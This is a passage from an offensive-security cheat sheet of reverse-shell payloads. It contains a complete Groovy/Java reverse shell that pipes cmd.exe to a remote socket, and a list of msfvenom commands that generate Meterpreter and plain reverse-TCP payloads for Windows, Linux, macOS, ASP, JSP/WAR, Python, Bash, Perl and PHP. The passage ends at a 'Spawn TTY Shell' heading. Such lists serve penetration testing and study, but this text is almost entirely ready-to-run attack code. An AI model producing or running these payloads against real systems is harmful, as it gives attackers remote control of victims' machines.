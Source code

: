     or
    
    https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

### Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) NOTE: Java reverse shell also work for Groovy

    String host="10.0.0.1";
    int port=4242;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

## Meterpreter Shell

### Windows Staged reverse TCP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

### Windows Stageless reverse TCP

    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

### Linux Staged reverse TCP

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

### Linux Stageless reverse TCP

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf

### Other platforms

    $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
    $ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
    $ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
    $ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
    $ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
    $ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Spawn TTY Shell
